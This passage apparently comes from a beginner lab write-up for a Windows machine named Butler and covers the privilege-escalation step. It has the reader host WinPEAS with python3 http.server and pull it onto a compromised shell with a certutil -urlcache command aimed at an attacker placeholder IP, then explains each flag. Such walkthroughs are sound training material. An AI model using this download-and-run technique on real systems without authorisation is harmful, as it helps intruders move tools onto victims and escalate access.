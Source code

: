 ## Privilege Escalation 

Let's use the **WinPEAS** which is the windows version of **linPEAS** you can find it [**here**](https://github.com/peass-ng/PEASS-ng/releases/tag/20240811-aea595a1)

Download the `winPEASx64.exe` and move it to the **folder** where you want to **host** it.

```
Hey Organizing is a good habit
```

Start `http.server` using `python3` type this in the folder where you want to host It.

```
python3 -m http.server 80

```

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/eccc88193936f40f1b4df30decf282f79da1fa82/Butler/images/server%20python3.png)

Now we have our http server running all we have to do now is download this `winPEASx64.exe` to the **Windows machine**

Now on the **Shell** we got
Go into any folder where you can have files to run (Desktop, Downloads, Or any User Profile) and then type :

```
$ certutil.exe -urlcache -f http://yourip:80/winPEASx64.exe winpeas.exe

--------------------------------------------------------------------------------------------
certutil.exe: A built-in Windows utility primarily used for managing certificates, but it can also be used for downloading files.

-urlcache: This flag tells certutil to interact with the URL cache, which can be used to download files from a URL.

-f: This forces the command to overwrite the file if it already exists.

http://yourip:80/winPEASx64.exe: This is the URL from which the file is being downloaded. Replace yourip with the actual IP address of the server hosting the file.

winpeas.exe: The name you want to save the downloaded file as on the local system.
```